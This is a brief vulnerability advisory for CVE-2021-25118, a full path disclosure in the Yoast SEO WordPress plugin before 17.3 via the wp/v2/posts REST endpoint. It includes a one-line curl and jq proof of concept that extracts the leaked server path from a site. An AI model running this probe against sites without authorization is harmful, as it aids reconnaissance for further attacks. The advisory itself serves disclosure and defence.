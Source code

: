 ```yaml
---
title: "[CVE-2021-25118] Yoast SEO < 17.3 - Unauthenticated Full Path Disclosure"
date: 2022-03-25 10:00:00 +07:00
tags: [cve, advisory]
description: The Yoast SEO WordPress plugin before 17.3 discloses the full internal path of featured images in posts via the wp/v2/posts REST endpoints which could help an attacker identify other vulnerabilities or help during the exploitation of other identified vulnerabilities.
---
```


### Description
The Yoast SEO WordPress plugin before 17.3 discloses the full internal path of featured images in posts via the `wp/v2/posts` REST endpoints which could help an attacker identify other vulnerabilities or help during the exploitation of other identified vulnerabilities.

### Proof of Concept
`curl -s 'https://example.com/wp-json/wp/v2/posts?per_page=1' | jq '.[0].yoast_head_json.og_image[0].path'`

### Software Link
- [Yoast SEO Wordpress Plugin](https://wordpress.org/plugins/wordpress-seo/)

### References
- [CVE-2021-25118](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25118)
- [WPScan](https://wpscan.com/vulnerability/2c3f9038-632d-40ef-a099-6ea202efb550)